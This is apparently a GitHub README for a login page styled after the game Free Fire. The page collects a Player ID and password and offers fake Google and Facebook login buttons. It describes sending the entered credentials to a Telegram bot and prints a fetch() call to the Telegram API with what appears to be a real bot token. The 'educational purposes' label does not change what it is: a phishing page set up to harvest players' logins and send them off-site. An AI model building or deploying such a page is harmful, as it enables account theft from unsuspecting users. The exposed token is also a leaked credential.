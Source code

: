# 🔥 Free Fire Style Login Page

This is a **fictitious login page inspired by Free Fire** game design, made for **educational purposes only**.  
Users can enter a Player ID and Password, then simulate login using Google or Facebook buttons.

The login data is sent to a **Telegram Bot** via the Bot API — perfect to learn about web forms, HTML/CSS/JS, and Telegram integration.

---

## 🎯 Features

- 🔐 Input fields: Player ID + Password  
- 🧠 Fake login buttons (Google, Facebook)  
- ⚙️ Telegram Bot integration (send info)  
- 🎮 Gaming UI inspired by Free Fire

---

## 🚀 Live Demo (after GitHub Pages is enabled)

> https://your-username.github.io/freefire-login-site/

*(replace `FF-LOgin` with your GitHub username)*

---

## 🔧 How It Works

1. User fills in Player ID and Password
2. On click, data is sent using:
   ```js
   fetch(`https://api.telegram.org/7741229374:AAF7RZDHiyUp31GVh5LISuavRzwXGwC8HtQ/sendMessage?...`)
